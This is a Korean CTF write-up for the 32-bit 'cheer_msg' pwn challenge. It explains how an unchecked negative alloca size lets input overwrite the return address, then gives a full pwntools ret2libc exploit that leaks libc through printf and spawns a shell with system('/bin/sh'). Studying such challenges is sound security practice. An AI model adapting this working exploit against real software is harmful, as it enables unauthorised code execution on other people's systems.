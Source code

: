 cheer-msg-100 (exploit)
=============

### 1. Introduction

| RELRO         | STACK CANARY | NX         | PIE    | RPATH    | RUNPATH    | FILE      |
|---------------|--------------|------------|--------|----------|------------|-----------|
| Partial RELRO | Canary found | NX enabled | No PIE | No RPATH | No RUNPATH | cheer_msg |

32비트 바이너리이며 실행흐름은 "메세지 길이 입력 -> 메세지 입력 -> 이름 입력 -> 이름과 메세지 출력" 이다.


### 2. Vulnerability

```c
printf("Hello, I'm Nao.\nGive me your cheering messages :)\n\nMessage Length >> ");
v3 = getint();
n = v3;
v4 = alloca(16 * ((v3 + 30) / 0x10u));
v8 = 16 * ((unsigned int)&v6 >> 4);
return message(16 * ((unsigned int)&v6 >> 4), v3);
```

alloca에서 size를 입력받을 때 입력값에 제한을 두는 구문이 없으므로 음수를 넣을 수 있다.

```
add     eax, edx
mov     ecx, 10h
mov     edx, 0
div     ecx
imul    eax, 10h
sub     esp, eax
```

alloca부분을 어셈으로 보면 입력값에 연산을 거치고 esp에서 빼주는것을 확인할 수 있다. 즉 입력을 음수로 맞추면 할당을 ret 위에 받아서 ret을 덮어쓸 수 있다.


### 3. Exploit
```python
from pwn import *

s = process('./cheer_msg')
l = ELF('/lib/i386-linux-gnu/libc.so.6')
e = ELF('./cheer_msg')

st = ' >> '

main = 0x080485ca

s.sendlineafter(st,str(-154)) # -154
s.recvuntil(st)
s.sendlineafter(st,p32(e.plt['printf']) + p32(0x080487af) + p32(0x0804A00C) + p32(main))
s.recvuntil('Message : \n')
libc_base = u32(s.recv(4)) -0x65ff0
system = libc_base + l.symbols['system']
binsh = libc_base + 0x15b9ab

log.info("LIBC_BASE : " + hex(libc_base))

s.sendlineafter(st,str(-154)) # -154
s.recvuntil(st)
s.sendlineafter(st,p32(system) + "AAAA" + p32(binsh))
s.recvuntil('Message : \n')

s.interactive()
```
